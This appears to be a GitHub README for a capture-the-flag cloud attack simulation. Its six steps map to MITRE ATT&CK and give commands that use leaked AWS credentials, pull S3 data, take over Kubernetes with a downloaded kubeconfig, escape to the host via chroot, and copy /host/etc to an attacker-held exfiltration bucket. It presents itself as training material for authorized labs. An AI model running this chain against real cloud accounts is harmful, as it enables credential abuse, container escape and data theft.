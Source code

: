 # Essential Tools to Win Magic CTF

## cloudcreds2exfil – Cloud Security Simulation

**Disclaimer:**  
This repository is for **educational use only** in authorized environments such as CTFs, cloud labs, or security training ranges. Do not use any part of this project on real systems without permission.

---

## Overview

The match was meant to be routine, until someone on the team leaked the game plan. An unexpected player slipped in, disguised and unmarked. What followed was a silent play, moving past the midfield, breaching the last line, and walking the ball into the net. By the time the Avengers noticed, the scoreboard had already changed.

---

## Attack Chain Simulation

---

## Commands & Mapping

### Step 1: Something was left unlocked
**Hint:** Beneath the silence, the key murmurs where few dare to glance.

**MITRE ATT&CK:**  
T1528 – Steal Application Access Token  
T1552.001 – Unprotected Credentials in Files

```bash
aws configure
aws sts get-caller-identity
```

---

### Step 2: They stored more than just objects
**Hint:** The path begins with a name you can already see

**MITRE ATT&CK:**  
T1530 – Data from Cloud Storage Object  
T1083 – File and Directory Discovery

```bash
aws s3 ls
aws s3 ls s3://<bucket-name>
aws s3 sync s3://<bucket-name> ./downloaded-data
```

---

### Step 3: You now speak its language
**Hint:** You have found the map. It doesn’t shout - but it guides.

**MITRE ATT&CK:**  
T1592.002 – Gather Cloud Infra Config: Container Orchestration  
T1609 – Kubernetes API Access

```bash
export KUBECONFIG=downloaded-data/kubeconfig
kubectl get nodes
kubectl get pods -A
```

---

### Step 4: Walk among them

**Hint:** Disguised as one of their own, you enter the field.

**MITRE ATT&CK:**  
T1610 – Deploy Container  
T1611 – Escape to Host

```bash
kubectl apply -f <<name>.yaml
kubectl get pods
kubectl exec -it <name> -- /bin/bash
```

---

### Step 5: Beyond the container wall

**Hint:** What lies beneath may not be hidden - only ignored.

**MITRE ATT&CK:**  
T1057 – Process Discovery  
T1082 – System Information Discovery

```bash
ls /host
chroot /host
hostname
```

---

### Step 6: Leave nothing... or leave everything
**Hint:** If you must leave, take a souvenir. Just don’t leave a trace.

**MITRE ATT&CK:**  
T1537 – Transfer Data to Cloud Account  
T1005 – Data from Local System  
T1041 – Exfiltration Over C2 Channel

```bash
aws s3 sync /host/etc s3://<your-exfil-bucket>/etc-backup
```

## Usage Guidelines

- Use only in test environments (e.g., personal AWS account, private CTFs, cyber ranges).
- Never use these techniques in production systems or without explicit permission.
- Designed for red vs. blue team simulations, training, and awareness.

---

## License

MIT License – Use allowed for educational and research purposes only.

---

## Contact

Open an issue or contact the maintainers for questions or suggestions.
